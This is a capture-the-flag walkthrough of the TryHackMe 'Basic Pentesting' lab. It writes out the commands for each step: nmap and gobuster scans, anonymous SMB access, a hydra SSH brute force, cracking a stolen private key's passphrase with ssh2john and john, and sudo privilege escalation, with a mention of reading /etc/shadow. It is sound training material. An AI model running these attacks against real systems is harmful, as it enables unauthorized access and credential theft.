




Basic Pentesting
================

Basic Pentesting is a really fun room from TryHackMe. We are able to practice with tools like hydra, john the ripper, smbclient and use priv-esc to not only finish the room, but do a little bonus task as well. Anyhow, lets get done with this

Start off with an nmap scan, I add the `-sC` option just to check if there are any extra vulnerabilities but fortunately we don't need to do CVE dumpster-diving this time. Your command should look something like this:
```
nmap -Pn -v -sV -sC <TARGET_IP>
```
We get the following hits:



Some good candidates for vectors are the http server port (80) and the samba ports (139,445)

When we look up the IP in the browser, we get a page that looks like this:


Looking at the source code for this page, we see this bit of information:
```
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```

This indicates that there are more pages that are hidden to us, so we run a gobuster scan with a command that looks like this:
```
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 40
```

We see 2 hits over here, namely these ones:
```
/index.html
/development
```

Where the most interesting one is `/development` which shows us a page like this on the browser:



The 2 files here are `dev.txt` and `j.txt` which have the following information:

>dev.txt:
>
>
>2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
>to host that on this server too. Haven't made any real web apps yet, but I have tried that example
>you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
>using version 2.5.12, because other versions were giving me trouble. -K
>
>2018-04-22: SMB has been configured. -K
>
>2018-04-21: I got Apache set up. Will put in our content later. -J
>
>j.txt:
>
>For J:
>
>I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
>and I was able to crack your hash really easily. You know our password policy, so please follow
>it? Change that password ASAP.
>
>-K
>

Here we see a conversation between 2 people, K and J and it talks about 2 major things:

1. The introduction of Apache Strut 2.5.12
2. Pontentially insecure passward for a user whose name starts with J (Broken Authentication)

I tried to go the first route, and go CVE diving, found a potential exploit but it didn't work out for me, so I decided to use Samba as my attack vector.

We can list the shares using the following command: (you can click enter when the password prompt comes)
```
smbclient -L 10.10.60.161
```



Here we see the Anonymous and the IPC$ which brings the idea of an anonymous login so we can try that using this command:

```
smbclient //<TARGET_IP>/anonymous
```

You click enter when the password prompt comes up and you are in the smb server. Then you can list the shares in the server using the `ls` command and see that there is a `staff.txt` and download the staff.txt using `get staff.txt`:



We can view the contents using `cat staff.txt` and see the following content:
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

We get to know the names of the 2 mystery users, namely Jan and Kay. We are also aware that Jan has a weak password. We can start doing a bruteforce of Jan's account with a tool like hydra. We can make a command that looks like this and start our attack:

```
hydra -l jan -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> ssh -t 10 -v
```

You can use rockyou.txt, but I didn't do that because of the sheer size of it and resorted to a smaller wordlist found with metasploit. Once you are done with the attack you will see that the password is `armando`

From here, we can simply SSH into the server using Jan's credentials and enumerate the server. We can SSH with the following command:

```
ssh <TARGET_IP> -l jan
```

While enumerating, we see that we can look into Kay's home directory and see a file called `pass.bak` which we cannot view. When you do `ls -la`, you see that there is a `.ssh` folder which is readable. `cd` into it and we see that there are 3 files: `authorized_keys`, `id_rsa`, `id_rsa.pub`. Here the most important file is the `id_rsa` as it is the private key we can use to SSH into the server as Kay.

I copied the `id_rsa` file into my Kali machine and then tried to SSH as Kay but I cannot get into it as I need a password to USE the private key. Here we are introduced to the tool John the Ripper. We can use a subsidiary tool called ssh2john which makes the private key crackable by John. So we run a command which looks like this:

```
ssh2john id_rsa > rsa.txt; john --wordlists=/usr/share/wordlists/rockyou.txt rsa.txt
```
Here, we see that the password is `beeswax`. So we can try to SSH as kay again using this command (Before you do this, run this command `chmod 600 id_rsa` so that you can run the below command without issues):

```
ssh -i id_rsa <TARGET_IP> -l kay
```

Here we get into kay's system and are able to run `cat pass.bak` and finish the room.


Easter Egg
----------

Here on, there is a lil easter egg that I found that you do when you have root access (or use sudo with kay's account). Firstly, run `sudo -l` with the password found in `pass.bak` and here we see that Kay can use sudo and run all the commands (Yay!). Now, we can run `sudo su` to get into the root account, go to the `/root` folder and read an easter egg flag which looks like this:

>Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
>a shell, and two ways to privesc. I encourage you to find them all!
>
>If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
>takeaways from this challenge should be that every little bit of information you can find can be
>valuable, but sometimes you'll need to find several different pieces of information and combine
>them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
>an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
>in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
>therefore might've been overlooked by administrators.
>
>Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
>me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
>out to me.
>
>Happy hacking!

(Lil extra information, you can use GTFO-Bins and use the sudo exploit with Vim and get root access. You can also run LinEnum.sh to find more vulnerabilities and gain root access. You can also read /etc/passwd and /etc/shadow and see that the root account has no password set which is a major security flaw.)
